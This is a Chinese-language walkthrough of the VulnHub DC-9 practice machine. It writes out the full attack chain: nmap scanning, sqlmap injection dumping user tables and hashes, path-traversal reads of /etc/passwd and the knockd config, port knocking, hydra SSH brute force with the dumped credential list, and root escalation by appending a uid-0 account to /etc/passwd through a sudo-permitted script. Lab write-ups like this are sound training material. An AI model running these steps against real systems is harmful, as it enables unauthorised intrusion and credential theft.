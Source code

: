 # DC 9

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-9,412/

## 知识点

- ssh端口敲门-knock服务
- sudo-l 提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.164
```

![](./img/vulnhub-dc9-1.png)
## 漏洞利用


![](./img/vulnhub-dc9-2.png)

尝试sqlmap进行post注入

```bash
sqlmap -r sql.txt
sqlmap -r sql.txt --dbs
sqlmap -r sql.txt -D Staff --dump
sqlmap -r sql.txt -D users --dump
```

![](./img/vulnhub-dc9-3.png)

![](./img/vulnhub-dc9-6.png)

taff 库跑出了个 hash 856f5de590ef37314e7c3bdf6f8a66dc ,md5解密后是 transorbital1

拿去登录admin用户

![](./img/vulnhub-dc9-4.png)

猜测存在文件包含，fuzz参数

```
http://10.30.0.164/manage.php?file=../../../../../etc/passwd
```

![](./img/vulnhub-dc9-5.png)

存在任意文件读取漏洞

可以看到读取出来的etc/password用户与前面sql跑出来的一样，尝试ssh登录

```bash
ssh marym@10.30.0.164
# ssh: connect to host 10.30.0.164 port 22: Connection refused
```

ssh状态是filtered，目测是被服务器安装了knockd工具隐藏了，knockd配置文件：`/etc/knockd.conf`

访问
`http://10.30.0.164/manage.php?file=../../../../../etc/knockd.conf`

![](./img/vulnhub-dc9-7.png)

需要进行端口敲门，参考文章如下：https://www.cnblogs.com/wsjhk/p/5508051.html

```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 10.30.0.164; done
nmap -A -p- -T4 10.30.0.164
```

![](./img/vulnhub-dc9-8.png)

可以看到SSH端口开放连接，尝试爆破登录

```
marym        3kfs86sfd
julied       468sfdfsd2
fredf        4sfd87sfd1
barneyr      RocksOff
tomc         TC&TheBoyz
jerrym       B8m#48sd
wilmaf       Pebbles
bettyr       BamBam01
chandlerb    UrAG0D!
joeyt        Passw0rd
rachelg      yN72#dsd
rossg        ILoveRachel
monicag      3248dsds7s
phoebeb      smellycats
scoots       YR3BVxxxw87
janitor      Ilovepeepee
janitor2     Hawaii-Five-0
```

```bash
hydra -L user -P pass ssh://10.30.0.164
```

![](./img/vulnhub-dc9-9.png)

```
[22][ssh] host: 10.30.0.164   login: chandlerb   password: UrAG0D!
[22][ssh] host: 10.30.0.164   login: joeyt   password: Passw0rd
[22][ssh] host: 10.30.0.164   login: janitor   password: Ilovepeepee
```

在janitor用户下发现密码文件

![](./img/vulnhub-dc9-10.png)

```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

```bash
hydra -L user -P pass1 ssh://10.30.0.164
```

发现新的账号
```
[22][ssh] host: 10.30.0.164   login: fredf   password: B4-Tru3-001
```

```bash
sudo -l
cd /opt/devstuff/dist/test/
type test
cat /opt/devstuff/test.py
```

![](./img/vulnhub-dc9-11.png)

```py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![](./img/vulnhub-dc9-12.png)
## 参考链接

- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/nbpk5u
- http://www.kxsy.work/2021/07/29/shen-tou-dc-9/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC9-WalkThrough.md